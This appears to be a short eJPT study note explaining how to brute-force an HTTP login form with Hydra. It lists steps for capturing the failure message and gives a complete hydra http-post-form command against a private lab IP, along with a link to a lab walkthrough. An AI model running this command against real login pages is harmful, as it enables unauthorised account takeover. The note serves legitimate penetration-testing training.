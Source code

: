 # Brute Forcing HTTP logins with Hydra
1. enter fake login information info the login form
2. copy the error message that is received
3. Go to the page source and check into the data below


![image](https://github.com/Nater-aide/EJPT/assets/143526926/b31c7b17-42ea-4bab-a810-8148c620e393)

This image would be this command: ```hydra -L usernames -P passwords 
192.208.137.3
 http-post-form"/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid
credentials or user not activated!"```

https://assets.ine.com/labs/ad-manuals/walkthrough-1895.pdf
